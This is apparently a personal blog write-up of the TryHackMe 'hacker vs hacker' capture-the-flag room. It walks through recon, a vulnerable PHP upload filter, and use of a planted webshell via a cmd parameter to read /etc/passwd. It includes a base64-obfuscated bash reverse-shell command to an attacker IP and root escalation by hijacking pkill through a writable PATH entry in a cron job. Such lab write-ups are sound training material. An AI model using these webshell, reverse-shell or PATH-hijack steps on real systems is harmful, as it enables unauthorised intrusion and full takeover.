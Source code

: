 ```yaml
---
layout: post
title: tryhackme - hacker vs hacker
---
```


# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap  nope.thm  -v
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

visiting the web server shows the website has a file upload functionality 

![file_upload](https://user-images.githubusercontent.com/71389295/185770220-befd6c9f-27c4-4783-a1bc-42cc8ef3fd85.png)![root](https://user-images.githubusercontent.com/71389295/185770231-52ae023a-8685-4276-be61-9ae541b80af2.png)


it was giving the following result whenever I tried to upload a file

![hacked](https://user-images.githubusercontent.com/71389295/185770223-8ed83266-43a5-4f65-b157-bbefd767817f.png)

examining the upload requests shows some commented php source code in the server response

![server_response](https://user-images.githubusercontent.com/71389295/185770241-f400586c-6d2d-4dd7-b910-81ab77a8006e.png)

```php
-->Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

this is a basic vulnerable file upload code in PHP, where the programmer only checks for the presence of an allowed extension (in this case `.pdf`), if it’s found then the file is uploaded to the server with a random name under `cvs/` directory

I took a loot at `cvs/` but the listing was disabled

![listing_disabled](https://user-images.githubusercontent.com/71389295/185770224-7f21642a-c85d-4baf-b8b6-ab2a3ff75794.png)

at first I thought this is actual code for `upload.php` so I tried uploading some shell with the name `shellcode.pdf.php`, but after getting the same response from the server when trying to upload different files, I figured that the attacker uploaded his shell on the server and removed the upload functionality, the idea of this box is to think like a hacker who already made his was inside, so I checked for the presence of `nope.thm/cvs/shell.pdf.php` and …
 
![boom](https://user-images.githubusercontent.com/71389295/185770218-0fcd7549-9e80-40ca-a6d1-b6fb07b6c877.png)

then I tried to give it an argument via `cmd` parameter and it worked as well!

[`http://nope.thm/cvs/shell.pdf.php?cmd=ls`](http://nope.thm/cvs/shell.pdf.php?cmd=ls)

![cmd](https://user-images.githubusercontent.com/71389295/185770219-ee2fc1c4-2483-4e07-b284-5786d403e536.png)

next thing I did was getting the list of users on the system [`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd`](http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd), getting the user flag from `/home/lachlan/user.txt` ([`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt`](http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt)) then getting a reverse shell with [`http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=|base64+-d|bash`](http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=%7Cbase64+-d%7Cbash)

![reverse_connection](https://user-images.githubusercontent.com/71389295/185770226-f3cf592a-8542-4138-807f-cace491d3418.png)

there was an annoying bit about this box, which is that you couldn’t spawn a pty duo to a crontab killing all `pts`s so the moment you hit `ctrl-c` by mistake you loose your shell

```php
$ python3 -c'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ :cri:
/bin/bash: line 3: :cri:: command not found
$ ps aux | grep pkill
root        1715  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1717  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1720  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

# priv esc

I found a `.bash_history` file under `/home/lachlan/` with `lachlan`'s plaintext password

```bash
$ ls /home
lachlan
$ ls /home/lachlan -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
bin
user.txt
$ cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

next we login to the machine via ssh, note that the `-T` is important not to create a `pts`m cause otherwise the `pkill` loop would kill our connection

```bash
$ ssh -T lachlan@nope.thm
lachlan@nope.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:06:20 AM UTC

  System load:  0.0               Processes:             126
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 51%               IPv4 address for eth0: 10.10.37.216
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

id
uid=1001(lachlan) gid=1001(lachlan) groups=1001(lachlan)
```

now to check the persistence method that the hacker left on the machine

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

two things to note here

- `/home/lachlan/bin` is the first entry on the `PATH`
- `pkill` is invoked without an absolute file path
    
    so dropping a malicious `pkill` script under `/home/lachlan/bin` should get us `root` privileges
    
![root](https://user-images.githubusercontent.com/71389295/185770284-bdad7916-eb5d-449f-96eb-269a27db8cea.png)
